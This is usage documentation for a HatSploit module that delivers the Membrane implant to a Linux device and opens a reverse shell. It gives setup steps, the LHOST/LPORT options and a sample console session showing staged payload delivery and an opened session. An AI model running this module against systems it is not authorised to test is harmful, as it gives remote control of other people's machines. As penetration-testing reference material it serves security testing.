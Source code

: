 # `exploit/linux/stager/membrane_reverse_tcp`

## Description

This module uses [Membrane Implant](https://github.com/enty8080/membrane) to send it to device and execute from `/private/var/tmp` to provide reverse shell.

## Verification Steps

1. Start HatSploit
2. Do `use exploit/linux/stager/membrane_reverse_tcp`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description        |
|-----------|-----------------------|----------|--------------------|
| `LHOST`   | `self.tcp_tools.get_local_host()` | yes      | Local host.        |
| `LPORT`   | 8888                  | yes      | Local port.        |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

## Scenarios

```
(hsf: exploit: linux/stager/membrane_reverse_tcp)> run
[*] Starting listener on port 8888...
[*] Binding to 192.168.2.108:8888...
[+] Listener started on port 8888!
[*] Connecting to 192.168.2.110...                
[*] Sending first stage...                        
[*] Executing first stage...                      
[*] Sending second stage...                       
[*] Executing second stage...                     
[*] Establishing connection...                    
[+] Session 0 opened!
(hsf: post: linux/membrane/trolling/say)> sessions
 
Sessions
========
 
    ID    Host             Username    Hostname     
    --    ----             --------    --------     
    0     192.168.2.110    enty8080    Ivans-Mint

(hsf: post: linux/membrane/trolling/say)>
```
